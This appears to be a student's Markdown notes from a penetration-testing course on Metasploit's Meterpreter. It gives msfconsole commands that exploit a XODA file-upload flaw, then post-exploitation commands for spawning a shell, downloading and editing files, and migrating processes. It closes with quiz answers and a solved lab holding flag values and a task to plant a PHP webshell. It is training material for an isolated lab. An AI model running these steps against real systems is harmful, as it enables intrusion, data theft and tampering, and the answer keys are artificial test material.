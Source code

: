 
- Meta-Interpreter
- Payload operates via DLL injection 
- Executed in memory 
- Communicates over a stager socker

Setup msfconsole
```
service postgresql start
msfconsole
workspace -a meterpreter
setg RHOST <target_ip>
setg LHOST <local_ip>
```

Scan and enumerate target
```
db_nmap -sV <target_ip>

curl http://<target_ip>
```

Setup exploit
```
search xoda
use exploit/unix/webapp/xoda_file_upload
set TARGETURI / 
info
exploit
```

Check System and User information
```
sysinfo
getuid
```

Run remote command on meterpreter session
```
sessions -C sysinfo -i 1 
```

Kill specific session
```
sessions -k <session_id>
```

Name session
```
sessions -n <session_name> -i <session_id>

sessions <session_name>
```

Display contents of file in meterpreter
```
cat <file_name>     in linux
more <file_name>     in windows
```

Edit file in meterpreter
```
edit <file_name>
```

Download file to local system from meterpreter
```
download <file_or_folder_name>
```

Get hash of a file or folder
```
checksum <hash_function> /bin/bash
```

Get more information of system with meterpreter
```
getenv PATH
```

Search through file system in meterpreter
```
search 

search -d /usr/bin -f *backdoor*

search -f *.exe
```

Get shell on target host
```
shell

/bin/bash -i 
```

Migrate to process
```
migrate <process_id>
```

Execute command via meterpreter
```
execute -f <command>
```
## Quiz

Meterpreter is a staged payload?

	TRUE

Which one of the following Msfconsole commands can be used to kill a specific session?

	sessions -k

Which one of the following meterpreter commands can be used to enumerate our current user?

	getuid
## Lab

The target server as described below is running a vulnerable web server. You have to exploit the vulnerability and get a meterpreter session on the server.  Then, you have to perform the following tasks to complete the challenge!

```
remote host: 192.219.219.3 
local host: 192.219.219.2

db_namp -sV -O 192.219.219.3

80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.5.47-0ubuntu0.14.04.1
```

**Tasks:**

1. Check the present working directory on remote (exploited) machine.
```
/app/files
```
   
2. List the files present in present working directory of the remote machine.
```
No entries exist in /app/files
```


3. Check the present working directory on local (attacker) machine.
```
/root
```
   
4. List the files present in present working directory of the local machine.
```
/root

```
   
5. Get the flag value present in /app/flag1 file.
```
5c50a439f040922188a22f88cecc5277
```
   
6. Change the flag value present in /app/flag1, so that no one else can get the right flag.
```
edit flag1
```

   
7. Change the present working directory to a suspiciously named directory in /app and read the flag from a hidden file present in that directory.
```
bbbb3ed27502614e27bff65faea008a0
```
   
8. Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.
```
164ebd6889588da166a52ca0d57b9004
```
   
9. Delete the .zip file from the directory.
```
rm flag5.zip
```
   
10. Print checksum of file mentioned in the extracted file (Refer to Q8).
```
164ebd6889588da166a52ca0d57b9004
```


11. Check the PATH environment variable on the remote machine.
```
getenv $PATH
PATH      /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

   
12. There is a file with string “ckdo” in its name in one of the places included in PATH variable. Print the flag hidden in that file.
```


```


13. Change to tools directory on the local machine.
```


```


14. Upload a PHP webshell to app directory of the remote machine.

```


```

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- postgresql is not running by default so Metasploit may give you an error about this when starting